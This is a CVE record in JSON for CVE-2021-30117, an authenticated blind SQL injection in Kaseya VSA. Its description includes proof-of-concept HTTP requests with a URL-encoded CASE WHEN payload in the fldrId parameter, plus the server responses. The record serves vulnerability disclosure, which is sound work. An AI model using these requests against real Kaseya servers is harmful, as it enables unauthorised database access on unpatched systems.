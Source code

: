 ```yaml
---
layout: cve-json-40
discovered_by:
  - Wietse Boonstra
json: {
    "CVE_data_meta": {
        "ASSIGNER": "cve@mitre.org",
        "ID": "CVE-2021-30117",
        "STATE": "PUBLIC",
        "TITLE": "Authenticated SQL injection in Kaseya VSA < v9.5.6"
    },
    "affects": {
        "vendor": {
            "vendor_data": [
                {
                    "product": {
                        "product_data": [
                            {
                                "product_name": "Kaseya VSA (on premise and SaaS)",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.6"
                                        }
                                    ]
                                }
                            },
                            {
                                "product_name": "Kaseya VSA Agent",
                                "version": {
                                    "version_data": [
                                        {
                                            "version_affected": "<",
                                            "version_name": "9.x",
                                            "version_value": "9.5.0.23"
                                        }
                                    ]
                                }
                            }
                        ]
                    },
                    "vendor_name": "Kaseya"
                }
            ]
        }
    },
    "credit": [
        {
            "lang": "eng",
            "value": "Discovered by Wietse Boonstra"
        },
        {
            "lang": "eng",
            "value": "Additional research by Frank Breedijk"
        }
    ],
    "data_format": "MITRE",
    "data_type": "CVE",
    "data_version": "4.0",
    "description": {
        "description_data": [
            {
                "lang": "eng",
                "value": "The API call /InstallTab/exportFldr.asp is vulnerable to a semi-authenticated boolean-based blind SQL injection in the parameter fldrId.\n\nDetailed description\n---\n\nGiven the following request:\n```\nGET /InstallTab/exportFldr.asp?fldrId=1’ HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nWhere the sessionId cookie value has been obtained via CVE-2021-30116. The result should be a failure.\n\nResponse:\n```\nHTTP/1.1 500 Internal Server Error\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 19:12:11 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 881\n \n<!DOCTYPE html>\n<HTML>\n \n<HEAD>\n \t<title>Whoops.</title>\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=Edge\" />\n \n \n\t<link id=\"favIcon\" rel=\"shortcut icon\" href=\"/themes/default/images/favicon.ico?307447361\"></link>\n \n----SNIP----\n```\n\nHowever when fldrId is set to ‘(SELECT (CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END))’ the request is allowed.\n\nRequest:\n```\nGET /InstallTab/exportFldr.asp?fldrId=%28SELECT%20%28CASE%20WHEN%20%281%3D1%29%20THEN%201%20ELSE%20%28SELECT%201%20UNION%20SELECT%202%29%20END%29%29 HTTP/1.1\nHost: 192.168.1.194\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\nAccept-Language: en-US,en;q=0.5\nAccept-Encoding: gzip, deflate\nDNT: 1\nConnection: close\nUpgrade-Insecure-Requests: 1\nCookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861;  agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519;\n```\n\nResponse:\n```\nHTTP/1.1 200 OK\nCache-Control: private\nContent-Type: text/html; Charset=Utf-8\nDate: Thu, 01 Apr 2021 17:33:53 GMT\nStrict-Transport-Security: max-age=63072000; includeSubDomains\nConnection: close\nContent-Length: 7960\n \n \n<html>\n<head>\n<title>Export Folder</title>\n<style>\n------ SNIP ----- \n```"
            }
        ]
    },
    "generator": {
        "engine": "Vulnogram 0.0.9"
    },
    "impact": {
        "cvss": {
            "attackComplexity": "LOW",
            "attackVector": "NETWORK",
            "availabilityImpact": "HIGH",
            "baseScore": 9.8,
            "baseSeverity": "CRITICAL",
            "confidentialityImpact": "HIGH",
            "integrityImpact": "HIGH",
            "privilegesRequired": "NONE",
            "scope": "UNCHANGED",
            "userInteraction": "NONE",
            "vectorString": "CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H",
            "version": "3.1"
        }
    },
    "problemtype": {
        "problemtype_data": [
            {
                "description": [
                    {
                        "lang": "eng",
                        "value": "CWE-89 SQL Injection"
                    }
                ]
            }
        ]
    },
    "references": {
        "reference_data": [
            {
                "name": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/",
                "refsource": "MISC",
                "url": "https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/"
            },
            {
                "name": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021",
                "refsource": "CONFIRM",
                "url": "https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021"
            }
        ]
    },
    "source": {
        "advisory": "DIVD-2021-00011",
        "discovery": "INTERNAL"
    }
}
---
```


